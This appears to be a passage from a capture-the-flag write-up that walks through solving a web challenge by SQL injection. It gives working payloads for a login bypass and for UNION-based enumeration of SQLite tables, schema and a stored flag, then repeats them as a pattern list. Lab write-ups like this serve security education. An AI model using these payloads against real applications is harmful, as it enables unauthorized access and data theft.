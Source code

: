 
## 4. Solution Implementation

### 4.1 Authentication Bypass
- **Target:** Login functionality
- **Payload:**
  ```sql
  ' OR '1'='1' --
  ```
  **Result**: Successful authentication bypass, access to admin dashboard

### 4.2 Database Enumeration
**Target**: Search functionality in admin panel  
**Payload to list all tables**:
```sql
' UNION SELECT 1,2,name,4,5 FROM sqlite_master WHERE type='table' --
```

#### Discovered Tables
- `activity_logs`
- `api_keys` 
- `general`
- `sessions`
- `sqlite_sequence`
- `profiles`

### 4.3Table Structure Analysis
**Target**: General table structure examination  
**Payload**:
```sql
' UNION SELECT 1,2,sql,4,5 FROM sqlite_master WHERE type='table' AND name='general' --
```
Table Structure:
```sql
CREATE TABLE general (flag TEXT)
```

### 4.4 Flag Extraction
**Target**: Direct flag retrieval from general table
**Payload**:
```sql
' UNION SELECT 1,2,flag,4,5 FROM general --
```
Result: Successful extraction of the flag

## 5. Technical Analysis
### 5.1 SQL Injection Patterns
```sql
-- Authentication Bypass
' OR '1'='1' --


-- Table Enumeration  
' UNION SELECT 1,2,name,4,5 FROM sqlite_master WHERE type='table' --


-- Schema Extraction
' UNION SELECT 1,2,sql,4,5 FROM sqlite_master WHERE type='table' AND name='general' --


-- Data Extraction
' UNION SELECT 1,2,flag,4,5 FROM general --

```